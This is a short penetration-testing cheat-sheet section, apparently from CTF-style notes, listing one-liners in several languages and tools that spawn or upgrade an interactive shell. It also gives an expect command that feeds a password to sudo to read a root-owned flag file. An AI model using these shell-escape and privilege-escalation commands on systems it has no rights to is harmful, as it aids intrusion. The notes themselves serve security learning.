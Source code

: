 ### <ins>TTY Shells</ins>

Spawn shells

- Python: `python -c 'import pty; pty.spawn("/bin/sh")'`
- Python3: `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- Bash: `echo os.system('/bin/bash')`
- Bash: `/bin/sh -i`
- Bash: `script -qc /bin/bash /dev/null`
- Perl: `perl -e 'exec "/bin/sh";'`
- Perl: `exec "/bin/sh";`
- Ruby: `exec "/bin/sh"`
- Lua: `os.execute('/bin/sh')`
- IRB: `exec "/bin/sh"`
- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- Nmap: `!sh`

No TTY

If you cannot obtain a full TTY, you can still interact with programs that expect user input. In the following example, the password is passed to `sudo` read a file:

```
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```